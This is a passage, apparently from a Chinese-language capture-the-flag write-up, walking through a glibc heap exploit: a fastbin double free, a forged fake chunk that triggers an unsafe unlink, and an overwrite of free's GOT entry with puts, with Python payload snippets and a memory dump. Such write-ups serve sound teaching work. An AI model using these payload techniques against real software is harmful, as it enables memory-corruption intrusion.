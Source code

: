 在最下面可以看到這時候 victim 拿到之前放進 smallbin 裡的 第一次 small chunk address，但是他會利用 size 也就是 nb 把 big chunk inuse bit 設成 1。

所以為了避免這個，我們先 `free(small)` again，這樣又可以把 small chunk 的 head 放進 fastbin 裡，這樣在 keep small 時候就可以避免上面事情發生。

在這裡 small 很像是重複 `free` 了兩次，但是因為 fastbin 只會檢查 fasttop 也就是 fastbin list 裡的第一個，因為剛剛在 keep huge 回收 fastbin 時被拿掉了所以可以 bypass double free 的檢查。

這裡 keep small 時輸入的 input 就可以開始偽造 fake chunk 了，payload 如下：

~~~python
fake_fd = 0x6020d0-0x18
fake_bk = 0x6020d0-0x10
payload = ""
payload += p64(0x0) # previous size not important
payload += p64(0x21) # fake chunk size
payload += p64(fake_fd)
payload += p64(fake_bk)
payload += p64(0x20) # fake previous size for big chunk
~~~

因為等等會利用 wipe(big) 來進行 unlink 所以這裡我們需要的任意 address 位置就把它設在 `0x6020d0` 也就是 global buffer 上的 small_buf 的位置，才能進行 renew。在這裡利用 payload 把 small chunk 可寫的地方當成另一個 chunk，然後 fake big chunk 的 previous size 這樣他在進行 unlink 才會找到我們偽造的 fd 跟 bk。

7. wipe(big) # trigger unlink

此時 `0x6020d0` 的位置，也就是 small_buf 的位置已經指到 global buffer 上了，後面就是利用 renew 來進行任意位置讀寫。
~~~assembly
0x6020b0:       0x00007f388c24f620      0x0000000000000000
0x6020c0:       0x00000000007fe9d0      0x00007f388c3e4010
0x6020d0:       0x00000000006020b8      0x0000000100000000
0x6020e0:       0x0000000000000001      0x0000000000000000
~~~

8. renew(small)

payload :

~~~python
payload = ""
payload += p64(0x0) # padding
payload += p64(free_got) # big_buf
payload += p64(0x0)
payload += p64(0x6020c0) # for write arbitrary
payload += p32(1)*3 # let us be easy to renew
~~~

在這裡我們把 `big_buf` 指到了 `free` 的 GOT entry，把 `small_buf` 指到了 `&big_buf`，之後好二次寫入，後面的 p32(1)*3 是為了讓 buf inuse 設成 1 才能進行 renew。

9. renew(big) 

接著利用 renew(big) 來把 `free` 的 GOT entry 上得值 hijack 成 call `puts`

payload :

~~~python
puts_plt = 0x400760
payload = p64(puts_plt)*2
~~~
